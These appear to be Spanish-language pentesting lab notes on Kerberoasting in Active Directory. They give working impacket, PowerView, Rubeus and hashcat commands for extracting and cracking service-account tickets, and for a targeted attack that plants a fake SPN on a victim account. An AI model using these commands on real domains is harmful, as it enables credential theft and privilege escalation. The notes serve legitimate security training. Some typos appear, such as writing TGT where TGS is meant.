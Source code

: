 #kerberoasting
Técnica de escalada de privilegios y movimiento lateral. Se atacan cuentas asociadas a SPN solicitando tickets TGT, para posteriormente crackearlos con hashcat. Cualquier usuario autenticado en el AD puede solictar un ticket TGS.
## Linux
Necesitamos tener credenciales de acceso (texto plano o NTML hash) y una shell en el contexto del usuario de dominio o `SYSTEM` shell
- Listar cuentas SPN - GetUserSPNs.py 
	```bashowe
	impacket-GetUserSPNs -dc-ip $target INLANEFREIGHT.LOCAL/forend
	```
- Solicitar todos los tickets TGS (añadir la flag `-requets` al comando anterior)
	```bash
	GetUserSPNs.py -dc-ip $target INLANEFREIGHT.LOCAL/forend -request -outputfile allTickets
	```
- Solicitar el ticket de un solo servicio (ej: `sqldev`)
	```bash
	GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
	```

### Windows 
Se podría hacer de forma semi-manual si no funciona ninguna de estas opciones (documentado en notion)
#### Powerview
- Único target
	```powershell
	Import-Module .\PowerView.ps1 
	Get-DomainUser * -spn | select samaccountname 
	# Supongamos que a partir de aquí seleccionamos como objetivo sqldev 
	Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
	```
- Exportar todos los tickets en csv
	```powershell
	Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
	```
 
#### Rubeus
Tiene alguna opción adicional a las de PowerView
- Obtener información sobre tickts TGS
	```powershell
	.\Rubeus.exe kerberoast /stats
	```
- Extraer todos los tickets TGS
	```powershell
	Rubeus.exe kerberoast /nowrap
	```
- Extraer los tickets de las cuentas más valiosas (`admincount=1`)
	```powershell
	.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
	```
- Extraer spn de un servicio concreto (ej: `sqldev` )
#### Cambiando el formato del hash (downgrading) - hasta Windows Server 2019 
Las cuentas de servicio que tienen encriptación `AES 128/256`, también pueden ser craqueadas, pero el proceso es mucho más lento. (se podría hacer con `hashcat -m 19700`)
- Forzar a generar un ticket con encriptación `RC4 HMAC`
	```powershell
	.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
	```
### Craquear offline los tickets - hashcat
```bash
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt
```

## Kerberoasting dirigido
La idea es tratar de craquear la cuenta de usuario que queramos creando un SPN falso asociado a ese usuario. Para poder realizar un ataque de este tipo necesitamos tener la capacidad de modificar o agregar SPNs en una cuenta de usuario. 
### Requisitos

| Permiso           | Descripción                                                  | Impacto en Kerberoasting Dirigido                     |
| ----------------- | ------------------------------------------------------------ | ----------------------------------------------------- |
| **GenericAll**    | Control total sobre el objeto.                               | Modifica cualquier atributo, incluido SPN.            |
| **GenericWrite**  | Escritura en cualquier atributo del objeto.                  | Permite añadir/modificar SPNs.                        |
| **WriteProperty** | Escritura en atributos específicos (`servicePrincipalName`). | Modifica solo atributos seleccionados.                |
| **WriteDACL**     | Modificación de la DACL para otorgarse permisos adicionales. | Otorga permisos como `GenericWrite` sobre SPN.        |
| **Self**          | Permite modificar ciertos atributos del propio objeto.       | Puede modificar su propio SPN si tiene `Self` en SPN. |
### Ataque 
- Creamos un objeto de tipo `$Cred` con las credenciales de un usuario que tenga permisos para crear un SPN (ej: `damundsen`)
	```powershell
	$pass = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force 
	$cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen',$pass )
	```
- Creamos un fake SPN con PowerView para el usuario que queramos comprometer (ej: `adunn`) - `Set-DomainObject`
```powershell
Set-DomainObject -Credential $cred -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
- Obtenemos información sobre el ticket creado con `rubeus`
	```powershell
	.\Rubeus.exe kerberoast /user:adunn /nowrap
	```
- Tratamos de craquear el ticket con `hashcat -m 13100`